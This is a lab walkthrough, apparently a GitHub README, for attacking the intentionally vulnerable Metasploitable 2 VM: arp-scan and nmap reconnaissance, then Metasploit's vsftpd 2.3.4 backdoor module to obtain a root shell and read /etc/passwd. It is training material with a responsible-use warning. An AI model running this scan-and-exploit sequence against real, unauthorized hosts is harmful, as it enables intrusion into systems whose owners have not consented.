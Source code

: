 [readme.md](https://github.com/user-attachments/files/23171044/readme.md)
# Metasploitable 2





**Metasploitable 2** is a deliberately vulnerable Linux virtual machine designed for beginners to practice penetration testing skills. The challenges included are straightforward and provide a solid foundation for learning offensive security techniques.

---

## Table of Contents

- [Description](#description)
- [Prerequisites](#prerequisites)
- [Getting started](#getting-started)
- [Finding the target IP](#finding-the-target-ip)
- [Scanning](#scanning)
  - [ARP scan](#arp-scan)
  - [Nmap scan](#nmap-scan)
  - [Nmap options explained](#nmap-options-explained)
- [Enumeration: FTP (vsftpd 2.3.4)](#enumeration-ftp-vsftpd-234)
- [Exploitation (Metasploit)](#exploitation-metasploit)
- [Post-exploitation](#post-exploitation)
- [Conclusion](#conclusion)
- [Responsible use](#responsible-use)
- [Credits](#credits)

---

## Description

This guide documents a simple walkthrough of attacking a Metasploitable 2 VM from an attack machine (Kali Linux) running in the same hypervisor (VMware Workstation). It covers finding the target on the LAN, scanning for open ports and services, identifying a vulnerable service (vsftpd 2.3.4), and exploiting it using Metasploit.

## Prerequisites

- An attack machine (Kali Linux) and the Metasploitable 2 VM running in your hypervisor (VMware Workstation used here).
- Network connectivity between the attack machine and the target (use Host-only or NAT depending on your setup).
- Tools used:
  - `arp-scan`
  - `nmap`
  - `msfconsole` (Metasploit Framework)

## Getting started

1. Boot your Metasploitable 2 VM and your attack machine (Kali Linux).
2. Log in to the Metasploitable 2 VM with the default credentials:

```text
username: msfadmin
password: msfadmin
```

3. On the Metasploitable machine, discover its IP address (this step is optional if you prefer to discover it from the attacker machine):

```bash
ifconfig   # or: ip addr show
```

> In this guide we discover the target IP from the attack machine using `arp-scan`.

## Finding the target IP

Scan the local network to find hosts and their IPs:

```bash
sudo arp-scan -l
```

Look for the IP address that corresponds to the Metasploitable VM. Note that your network interface (and the network range) may differ depending on VMware settings.

## Scanning

After you have the target IP, perform a full port/service/OS scan using `nmap` from the attack machine.

### ARP scan

(Already shown above) `arp-scan -l` lists active hosts on the LAN and helps you find the Metasploitable IP.

### Nmap scan

Run an aggressive, full-port scan and save results to a file:

```bash
nmap -p- -v -sT -sV -O -oN Temp.xml <target_ip>
```

Replace `<target_ip>` with the IP you found using `arp-scan`.

### Nmap options explained

- `-p-` : scan all 65,535 TCP ports
- `-v`  : verbose output
- `-sT` : TCP connect scan (useful when raw sockets are not available)
- `-sV` : probe open ports to determine service and version information
- `-O`  : attempt to determine the target operating system
- `-oN Temp.xml` : save output to `Temp.xml` (note: the extension here is `.xml` but `-oN` writes normal text format; change to `-oX` for real XML)

After the scan completes you will see a list of open ports and services. Metasploitable 2 typically presents many open services — each is a potential attack vector.

## Enumeration: FTP (vsftpd 2.3.4)

From the scan results, FTP (port 21) often shows up with the service `vsftpd 2.3.4`. This specific version is known to have a malicious backdoor in certain Metasploitable builds and earlier vulnerable distributions.

Research the specific service/version (e.g., search exploit databases) to see if there are public exploits available for that version.

## Exploitation (Metasploit)

Metasploit includes a module for the `vsftpd 2.3.4` backdoor. The basic steps to exploit using Metasploit are shown below.

```bash
msfconsole
search vsftpd 2.3.4

# If found:
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS <target_ip>
set RPORT 21         # optional if different
exploit
```

Replace `<target_ip>` with the target's IP. After running `exploit` you should receive a shell from the target.

## Post-exploitation

Once you have a shell, verify privileges:

```bash
whoami
```

If the exploit gives you a root shell (as commonly happens with this vuln in Metasploitable 2), `whoami` will return `root`.

From here you can explore the filesystem, inspect `/etc/passwd`, check for other services, and practice post-exploitation enumeration in a safe, legal lab environment.

## Conclusion

This walkthrough demonstrated a simple, classic attack path in Metasploitable 2:

1. Discover the target on the LAN (`arp-scan`).
2. Scan the target for open ports and identify services (`nmap`).
3. Research identified services (vsftpd 2.3.4) for known vulnerabilities.
4. Exploit the vulnerable service with Metasploit and obtain a shell.

This is intentionally simplified for learning purposes. Real-world engagements require far more careful reconnaissance, planning, and legality checks.

## Responsible use

**Important:** These techniques are for learning and testing only. Do **not** use them against systems you do not own or do not have explicit authorization to test. Unauthorized access to computer systems is illegal and unethical.

## Credits

- Metasploit Framework
- Metasploitable project (Intended for defensive and educational use)

---

